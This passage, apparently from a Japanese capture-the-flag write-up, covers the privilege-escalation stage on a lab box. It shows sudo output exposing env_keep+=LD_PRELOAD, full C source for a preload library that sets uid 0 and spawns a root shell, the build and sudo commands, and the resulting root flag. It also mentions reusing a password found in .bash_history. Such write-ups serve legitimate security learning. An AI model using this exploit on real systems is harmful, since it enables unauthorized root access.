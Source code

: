 ## 権限昇格

sudo。パスワードは .bash_history に残されていたものを使えた。

```shell
saad@m4lware:~$ sudo -l
[sudo] password for saad:
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

sudo で ping を実行できるが、ping そのものは昇格に使えない。

よく見ると、`env_keep+=LD_PRELOAD` が付いていたので昇格に使える。

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash -p");
}
```

ターゲットにソースコードをコピーし、ビルド

```shell
saad@m4lware:~$ gcc -fPIC -shared -o /tmp/x.so ./hijack.c -nostartfiles
```

エクスプロイト

```shell
saad@m4lware:~$ sudo LD_PRELOAD=/tmp/x.so /usr/bin/ping
[sudo] password for saad:
root@m4lware:/home/saad# id
uid=0(root) gid=0(root) groups=0(root)
```

昇格成功。

```shell
root@m4lware:/home/saad# cat /root/root.txt
992...........................
```

ルートフラグゲット！

## 振り返り

- サブドメイン検索は最近よく使うので、すぐ見つかった。それは良かった。
- SSRF で ローカル HTTP ポートをスキャンするのは初めてのパターン。
- LD_PRELOAD の悪用は最初期に習ったテクニックだったが、すっかり忘れていて時間がかかった。反省。

